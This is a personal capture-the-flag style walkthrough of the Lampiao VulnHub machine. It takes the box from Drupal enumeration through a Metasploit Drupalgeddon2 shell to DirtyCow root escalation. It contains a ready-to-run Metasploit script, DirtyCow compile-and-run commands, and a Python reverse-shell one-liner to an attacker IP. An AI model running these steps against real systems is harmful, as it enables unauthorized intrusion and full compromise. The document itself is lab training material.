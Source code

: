 #Reconnaissance 
Nmap scan. 
Found port 1898 open, which was found to be running drupal
Looked for Drupal enumeration apps and was able to find "Drupwn" on github. Installed and executed, discovering the running version was likely to be 8.x


#InitialAccess
Searchsploit contained several entries for "DrupalGeddon". One of them had a .rb extension, implying it was a msf module, so I executed ``` msfconsole ``` followed by ```search drupal```, which confirmed a module did exist.

Low priv shell can be automated as follows in (Kali with metasploit framework)
```
#lampiao_low_priv.sh
#/bin/bash
rhost=${1}
msfconsole -x "use exploit/unix/webapp/drupal_drupalgeddon2;\
	set payload php/meterpreter/bind_tcp;\
	set rport 1898;\
	set rhost $tgt;\
	exploit;\
	cd ~/toolz;\
	# upload ~/toolz/les.sh /tmp/" # enumeration script 
```
 
 #Discovery 
Executed a large number of manual enumeration steps. Most interesting thing (not covered in other guides) was a salted SHA256 hash sitting in /etc/passwd. I attempted to crack it to no avail, using the full seclist password wordlist collection, as well as straight brute forcing w/ an nvidia GTX gpu (which also failed).


#PrivilegeEscalation
The majority of users achieved root by using the Linux Exploit Suggester script (les.sh), which feels sort of cheap compared to the typically OffSec box (granted, this is vanilla vuln-hub).

uname -a output
```
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
searchsploit 4.4.0 nets the following
![[Pasted image 20220609223956.png]]

- Several of the Ubuntu related exploits are inapplicable as they apply to version 16.04
- Chocoboroot fails due to the arch not being applicable (i686)

From attacker computer, set up listener for stable reverse shell (php shell seems to die after executing dirty cow)

```
nc -lvp 7777
export tgt={target ip address}
```

This will spawn a meterpreter shell on the victim. Once it's opened, execute the following
```
# meterpreter cmds
upload DirtyCow.c /tmp/dcow.c
shell
```

Once dropped into the shell, execute the following
```
# on lampiao
cd /tmp
gcc dcow.c -o dc -pthread
chmod +x dc
./dc 

# executing binary interrupts flow here. Have to manually copy and paste 
# these commands, unless there's a way to modify the payload to execute 
# them automatically. (likely)

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.49.75',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
whoami
```